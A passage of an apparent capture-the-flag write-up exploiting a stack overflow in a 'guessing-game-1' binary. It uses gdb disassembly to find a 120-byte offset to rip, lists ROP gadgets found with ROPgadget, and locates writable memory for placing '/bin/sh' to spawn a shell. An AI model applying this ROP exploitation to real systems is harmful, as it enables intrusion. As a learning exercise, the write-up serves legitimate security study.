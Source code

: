 Next find the offset to `rip`. Take a look at the disassembled `win` function.
```
gef➤  disass win
Dump of assembler code for function win:
   0x0000000000400c40 <+0>:     push   rbp
   0x0000000000400c41 <+1>:     mov    rbp,rsp
   0x0000000000400c44 <+4>:     sub    rsp,0x70
   0x0000000000400c48 <+8>:     lea    rdi,[rip+0x92478]        # 0x4930c7
   0x0000000000400c4f <+15>:    mov    eax,0x0
   0x0000000000400c54 <+20>:    call   0x410010 <printf>
   0x0000000000400c59 <+25>:    mov    rdx,QWORD PTR [rip+0x2b9b48]        # 0x6ba7a8 <stdin>
   0x0000000000400c60 <+32>:    lea    rax,[rbp-0x70]
   0x0000000000400c64 <+36>:    mov    esi,0x168
   0x0000000000400c69 <+41>:    mov    rdi,rax
   0x0000000000400c6c <+44>:    call   0x410a10 <fgets>
   0x0000000000400c71 <+49>:    lea    rax,[rbp-0x70]
   0x0000000000400c75 <+53>:    mov    rsi,rax
   0x0000000000400c78 <+56>:    lea    rdi,[rip+0x9245b]        # 0x4930da
   0x0000000000400c7f <+63>:    mov    eax,0x0
   0x0000000000400c84 <+68>:    call   0x410010 <printf>
   0x0000000000400c89 <+73>:    nop
   0x0000000000400c8a <+74>:    leave  
   0x0000000000400c8b <+75>:    ret
```
The address of our input is stored in `rdi` (the first parameter), which is `rbp-0x70`. Therefore the offset is `0x70+0x8=120`.

Finally let's build our rop chain. Use `ROPGadget --binary ./vuln --ropchain` to see if there are gadgets we need. We have to have control over `rax` (syscall number), `rdi` (1st parameter), `rsi` (2nd), `rdx` (3rd). Also we need `syscall` to make a syscall.
```
[+] Gadget found: 0x4163f4 pop rax ; ret
[+] Gadget found: 0x400696 pop rdi ; ret
[+] Gadget found: 0x410ca3 pop rsi ; ret
[+] Gadget found: 0x44a6b5 pop rdx ; ret
[+] Gadget found: 0x40137c syscall
```
Now let's build our rop chain. We need to write `/bin/sh` into some writable memory area, so `read` is needed. Since the binary called `fgets` before, we have `read` in it. We can use `vmmap` in gdb to find some writable memory area. Remember don't use an address with `0x00` in it if possible.
```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000400000 0x000000004b7000 0x00000000000000 r-x /home/nick/coding/ctf/pwn/guessing-game-1/vuln
0x000000006b7000 0x000000006bd000 0x000000000b7000 rw- /home/nick/coding/ctf/pwn/guessing-game-1/vuln
0x000000006bd000 0x000000006e1000 0x00000000000000 rw- [heap]
0x007ffff7ff9000 0x007ffff7ffd000 0x00000000000000 r-- [vvar]
0x007ffff7ffd000 0x007ffff7fff000 0x00000000000000 r-x [vdso]
0x007ffffffdd000 0x007ffffffff000 0x00000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
gef➤  x/40x 0x6b7000
0x6b7000:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7010:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7020:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7030:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7040:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7050:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7060:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7070:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7080:       0x00000000      0x00000000      0x00000000      0x00000000
0x6b7090:       0x00000000      0x00000000      0x00000000      0x00000000
```